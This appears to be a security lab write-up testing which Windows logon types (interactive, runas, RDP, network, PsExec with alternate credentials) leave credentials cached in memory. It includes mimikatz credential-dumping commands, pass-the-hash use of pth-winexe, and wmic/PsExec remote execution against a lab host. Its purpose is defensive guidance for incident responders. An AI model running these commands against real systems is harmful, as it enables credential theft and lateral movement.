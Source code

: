 ```yaml
---
description: >-
  This lab explores/compares when credentials are susceptible to credential
  dumping.
---
```


# Network vs Interactive Logons

Tested against Microsoft Windows 7 Professional 6.1.7601 Service Pack 1 Build 7601

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump using mimikatz on the victim system to see what we can get before we start logging on to it using other methods such as runas, psexec, etc. To test this, the victim system was rebooted and no other attempts to login to the system were made except for the interactive logon to get access to the console:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endtab %}
{% endtabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% tabs %}
{% tab title="responder@victim" %}
```csharp
runas /user:low cmd
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endtab %}
{% endtabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test2.png)

## Interactive Logon \(2\) via runas and Domain Account

{% tabs %}
{% tab title="responder@victim" %}
```csharp
runas /user:spot@offense cmd
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endtab %}
{% endtabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test3.png)

## New Credentials \(9\) via runas with /netonly

```csharp
runas /user:low /netonly cmd
```

Note that event logs show the logon of type 9 for the user `mantvydas`, although we requested to logon as the user `low`:

![](../../.gitbook/assets/pwdump-runas-netonly.png)

Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, get cached:

![](../../.gitbook/assets/pwdump-runas-netonly-dump.png)

## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:

{% tabs %}
{% tab title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endtab %}
{% endtabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% tabs %}
{% tab title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endtab %}
{% endtabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test6.png)

Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:

![](../../.gitbook/assets/pwdump-logon10.png)

## PsExec From An Elevated Prompt

{% tabs %}
{% tab title="responder@victim" %}
```csharp
.\PsExec64.exe \\10.0.0.2 cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/pwdump-psexec-no-atlernate-credentials.png)

Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on to the next section.

## PsExec + Alternate Credentials

{% tabs %}
{% tab title="responder@victim" %}
```csharp
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```
{% endtab %}
{% endtabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-psexec-supplied-creds.png)

Looking at the event logs, a logon type 2 \(interactive\) is observed amongst the network logon 3, which explains why credentials were successfully dumped in the above test:

![](../../.gitbook/assets/pwdump-psexec-interactive-logon.png)

![](../../.gitbook/assets/pwdump-psexec-eventlog.png)

## Observations

Network logons do not get cached in memory except for when using `PsExec` with alternate credentials specified via the `-u` switch. 

Interactive and remote interactive logons do get cached and can get easily dumped with Mimikatz.

## References

{% embed url="https://digital-forensics.sans.org/blog/2012/02/21/protecting-privileged-domain-account-safeguarding-password-hashes" %}




